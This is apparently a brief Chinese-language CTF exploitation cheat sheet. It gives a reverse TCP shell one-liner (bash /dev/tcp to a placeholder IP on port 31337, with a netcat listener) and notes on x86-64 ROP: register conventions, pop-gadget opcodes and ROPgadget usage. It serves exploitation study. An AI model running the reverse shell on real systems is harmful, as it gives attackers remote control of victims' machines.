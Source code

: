 **trick:开启reverse tcp shell(web同时适用)**
system("bash -c 'bash -i >& /dev/tcp/to.your.ip.addr/31337 0>&1'")

```bash
# system("bash -c 'bash -i >& /dev/tcp/127.0.0.1/31337 0>&1'")
nc -vlp 31337
```

# ROP for x86-64

**64-bin ROP**

- _syscall 要用rax,rdi,rsi,rdx,rcx,r8,r9,syscall_
- _Function call参数传递适用寄存器而不是栈 rdi,rsi,rdx,rcx,r8,r9_
- _需要用pop-ret控制register，再接function address_

**64-bit register**

- _rax,rcx,rdx,rbx,rsp,rbp,rsi,rdi_
- _r8-r15是用前8个加上rex prefix来表示_
- _r12-r15是callee saved，所以pop r12 - r15在function return前很常见_
- _pop r14 = 415e / pop rsi = 5e_
- _pop r15 = 415f / pop rdi = 5f_

**ROPgadget**
ROPgadget预设的搜索长度对64位来说可能不太够，需要增加--depth

```bash
ROPgadget --binary ./binary --depth 100
```

**通用gadget**

- _64bit rop需要gadget控制参数_
- _gcc的程序中有一些片段一定会有，可以用来做rop，构造ret2lib不是问题_

![w5-x64-rdi-rsi](w5-x64-rdi-rsi.png)
